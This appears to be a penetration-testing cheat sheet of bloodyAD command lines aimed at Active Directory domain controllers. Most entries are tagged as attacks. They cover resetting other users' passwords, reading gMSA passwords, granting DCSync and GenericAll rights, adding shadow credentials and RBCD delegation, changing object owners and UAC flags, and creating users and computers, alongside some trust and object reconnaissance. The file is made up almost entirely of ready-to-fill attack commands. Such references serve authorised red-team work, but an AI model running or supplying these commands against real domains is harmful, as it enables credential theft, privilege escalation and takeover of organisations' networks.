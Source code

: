 # bloodyAD % adcs, certificate, pki, windows, Active directory, template, shadow credential, gmsa, acls
## bloodyAD - set user password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set password <target-user> <new-password>
```

## bloodyAD - add group member
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add groupMember <target-group> <trustee>
```

## bloodyAD - set user spn
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set object <target-user> serviceprincipalname -v '<service>/<spn>'[]
```

## bloodyAD - read gmsa password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get object <target-user> --attr msDS-ManagedPassword
```

## bloodyAD - get writable
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get writable
```

## bloodyAD - get object
#plateform/linux #target/remote #cat/RECON
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get object <target-object>
```

## bloodyAD - get trusts
#plateform/linux #target/remote #cat/RECON
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get trusts --transitive
```

## bloodyAD - set owner
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set owner <target-object> <trustee>
```

## bloodyAD - add computer
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add computer <hostname> <computer-password>
```

## bloodyAD - add dcsync
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add dcsync <target-user>
```

## bloodyAD - add genericAll
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add genericAll <target-user> <trustee>
```

## bloodyAD - add rbcd
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add rbcd <target-object> <service>
```

## bloodyAD - add shadow credential
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add shadowCredentials <target-user>
```

## bloodyAD - add uac
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add uac <target-user> -f <property>
```

## bloodyAD - remove uac
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k remove uac <target-user> -f <property>
```

## bloodyAD - add user
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add user <username> <new-password>
```

